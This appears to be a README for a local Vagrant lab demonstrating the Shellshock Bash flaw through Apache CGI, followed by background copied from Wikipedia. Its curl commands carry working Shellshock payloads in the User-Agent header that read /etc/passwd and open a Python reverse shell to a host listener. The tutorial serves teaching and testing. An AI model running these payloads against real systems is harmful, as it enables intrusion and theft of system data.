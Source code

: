 # Getting started on demoing a Shellshock vulnerability: 

## Setup
  1. Set up a vagrant box using this vagrant file. This will install Apache and forward to port 8080.. 
  2. Create a cgi file in /usr/lib/cgi-bin. It can be as simple as html content type "hello world."  
  3. Test the following vulnerabilities against "http://localhost:8080/cgi-bin/some_file_of_your_choice.sh" 


## Demoing the vulnerability
### To test via the command line: 

```sh
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```sh

(If you see "vulnerable" you need to update bash. Otherwise, you should be good to go.)


#### Via curl: 

#### To just echo data:

```sh
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; echo 'hi world of exploits'" http://localhost:8080/cgi-bin/shellshock_test.sh
```sh

#### To copy passwords: 
```sh
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:8080/cgi-bin/shellshock_test.sh
```sh

#### To create a reverse shell:
```sh
curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.2\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://localhost:8080/cgi-bin/shellshock_test.sh
```sh


## More information about Shellshock: 
Source: https://en.wikipedia.org/wiki/Shell_shock

This is a major vulnerability that occurs when specific characters are included as part of a variable definition in Bash.

Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. 

If the characters "{ :;};" are included as the function definition, any arbitrary code that is inserted AFTER that definition is processed. This isn't supposed to happen.




### Scale of the problem: 

It looks like basically every version of Bash through version 4.3 is affected by this vulnerability.


### Why is CGI vulnurable? 

The Common Gateway Interface (CGI) vector (an interface between a web server and executables that produce dynamic content) has received the bulk of the focus from attackers thus far. However, the reach of the BASH Shellshock bug doesn’t stop at web servers. Any application that relies on user-controlled data to set OS-level environment variables and then invokes the shell from that same context can trigger the vulnerability. In other words, web applications relying on a specific type of user input can be manipulated to make clients (i.e., consumers) vulnerable to attack. 

Because CGI relies on environment variables set in the header which are later interpreted to generate dynamic content, it is vulnerable to this kind of attack. 

### More about Bash: 

In Unix-based operating systems, and in other operating systems that Bash supports, each running program has its own list of name/value pairs called environment variables. When one program starts another program, it provides an initial list of environment variables for the new program.[21]Separately from these, Bash also maintains an internal list of functions, which are named scripts that can be executed from within the program.[22]Since Bash operates both as a command interpreter and as a command, it is possible to execute Bash from within itself. When this happens, the original instance can export environment variables and function definitions into the new instance.[23] Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. The new instance of Bash, upon starting, scans its environment variable list for values in this format and converts them back into internal functions. It performs this conversion by creating a fragment of code from the value and executing it, thereby creating the function "on-the-fly", but affected versions do not verify that the fragment is a valid function definition.[24] Therefore, given the opportunity to execute Bash with a chosen value in its environment variable list, an attacker can execute arbitrary commands or exploit other bugs that may exist in Bash's command interpreter.

When a web server uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the request to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request.[6]
Security documentation for the widely used Apache web server states: "CGI scripts can ... be extremely dangerous if they are not carefully checked."[29] and other methods of handling web server requests are often used. There are a number of online services which attempt to test the vulnerability against web servers exposed to the Internet.
